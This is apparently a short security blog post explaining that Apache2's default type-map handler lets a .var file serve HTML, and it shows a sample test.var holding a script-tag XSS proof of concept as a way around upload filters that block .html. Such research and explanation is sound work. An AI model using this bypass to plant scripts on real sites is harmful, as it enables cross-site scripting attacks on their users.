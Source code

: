 ```yaml
---
layout: post
title:  "XSS with Apache2 type-map handler extension"
date:   2020-11-29 23:48:00
tags:   [Apache2, XSS]
---
```


## Description
This post contains about cross site scripting with Apache2 type-map extension.
<br/>
<br/>


## Negotiation in httpd
In order to negotiate a resource, the server needs to be given information about each of the variants. This is done in one of two ways:

* Using a type map (i.e., a *.var file) which names the files containing the variants explicitly, or
* Using a 'MultiViews' search, where the server does an implicit filename pattern match and chooses from among the results.

#### Using a type-map file
A type map is a document which is associated with the handler named type-map (or, for backwards-compatibility with older httpd configurations, the MIME-type application/x-type-map). Note that to use this feature, you must have a handler set in the configuration that defines a file suffix as type-map; this is best done with
```
AddHandler type-map .var
```
(https://httpd.apache.org/docs/2.4/en/content-negotiation.html)
<br/>
<br/>


## XSS with var exntension
`AddHandler type-map .var` is applied by default in Apache2. so when you can't use `html` or `htm` extension, you can use `var` to trigger xss.

```
➜  ~ cat test.var
Content-language: en
Content-type: text/html
Body: ----foo----
<script>
alert(document.domain)
</script>
----foo----
```
